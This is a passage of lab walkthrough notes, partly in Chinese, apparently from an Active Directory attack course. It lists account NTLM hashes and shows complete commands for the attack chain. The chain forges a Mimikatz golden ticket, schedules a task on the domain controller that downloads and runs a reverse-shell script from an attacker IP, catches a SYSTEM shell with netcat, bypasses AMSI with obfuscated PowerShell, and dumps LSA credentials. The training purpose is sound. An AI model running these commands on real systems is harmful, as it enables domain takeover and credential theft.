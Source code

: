 websvc ： cc098f204c5887eaa8253e7c2749156f
srvadmin ：a98e18228819e8eec3dfa33cb68b0728
appadmin ： d549831a955fee51a43c83efb3928fa7
mgmtadmin ： 95e2cd7ff77379e34c6e46265e75d754
studentadmin ： d1254f303421d3cdbdc4c73a5bce0201
sql1admin ： e999ae4bd06932620a1e78d2112138c6
testda ：a16452f790729fa34e8f3a08f234a82c
```

##  Using the NTLM hash of krbtgt account, create a Golden ticket.


开一个新的学生权限的shell
执行：
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

## Use the Golden ticket to (once again) get domain admin privileges from a machine.
验证金票：
```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```


新建一个定时任务，反弹dc上的一个shell回来。需要注意Invoke-PowerShellTcp.ps1里最后一行要加上
```
Power -Reverse -IPAddress 172.16.100.66 -Port 443
```
表示调用自己

### 制作定时任务：
```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

### 触发定时任务
```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User366"
```

拿到反弹shell
```
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.2.1] 64573
Windows PowerShell running as user DCORP-DC$ on DCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
dcorp-dc
PS C:\Windows\system32>
```


# Learning Objective 9:
Task
● Try to get command execution on the domain controller by creating silver ticket for:
− HOST service
− WMI

```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'